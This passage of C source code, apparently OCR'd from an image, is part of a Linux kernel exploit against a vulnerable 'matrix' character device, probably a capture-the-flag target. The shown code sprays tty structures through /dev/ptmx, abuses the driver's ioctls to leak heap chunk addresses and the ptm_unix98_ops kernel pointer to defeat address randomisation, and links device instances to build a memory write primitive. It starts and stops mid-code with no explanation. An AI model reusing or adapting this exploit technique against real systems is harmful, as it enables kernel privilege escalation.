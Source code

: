 ```c
}

void writeMATRIX64(int devfd, uint64_t* todo, off64_t offset){
    struct matrix_pos write_pos = {0};
    write_pos.col = 0;
    for(uint32_t i = 0 ; i < 8 ; ++i){
        write_pos.row = offset+i;
        write_pos.byte = ((char *)todo)[i];
        ioctl(devfd,IOCTL_MATRIX_SET_POS,&write_pos);
    }
}

int main(int argc,char** argv,char** envp){
    int fd1 = openDEV();
    int ptmx_fd = open("/dev/ptmx",O_RDWR);
    uint64_t chunk_addr1 = 0;
    if(ptmx_fd < 0)
        errExit("Open ptmx");
    struct matrix_info info1={
        .rows = 0x2e0,
        .cols = 1
    };
    close(ptmx_fd);
    if(set_info(fd1,&info1) < 0 )
        errExit("Set info fd1");
    logInfo("Set fd1 info: done.");
    //Leaking
    readMATRIX64(fd1,&chunk_addr1,0x38);
    chunk_addr1 -= 0x38;
    logInfo("Chunk1 @ %p",(void *)chunk_addr1);


    int fd2 = openDEV();
    ptmx_fd = open("/dev/ptmx",O_RDWR);
    if(ptmx_fd < 0)
        errExit("Open ptmx");
    struct matrix_info info2={
        .rows = 0x2e0,
        .cols = 1
    };
    close(ptmx_fd);
    if(set_info(fd2,&info2) < 0)
        errExit("Set info fd2");
    logInfo("Set fd2 info: done.");
    
    //Linking
    if(do_link(fd1,fd2) < 0)
        errExit("Do_link");
    logInfo("Link fd1 <-> fd2: done.");

    //Leaking
    uint64_t ptm_unix98_ops = 0;
    uint64_t chunk_addr2 = 0;
    readMATRIX64(fd2,&ptm_unix98_ops,0x18);
    readMATRIX64(fd2,&chunk_addr2,0x38);
    chunk_addr2 -= 0x38;
    logInfo("ptm_unix98_ops = %p",(void *)ptm_unix98_ops);
    logInfo("Chunk2 @ %p",(void *)chunk_addr2);

    int fd3 = openDEV();

    if(do_link(fd2,fd3) < 0)
        errExit("do_link");
```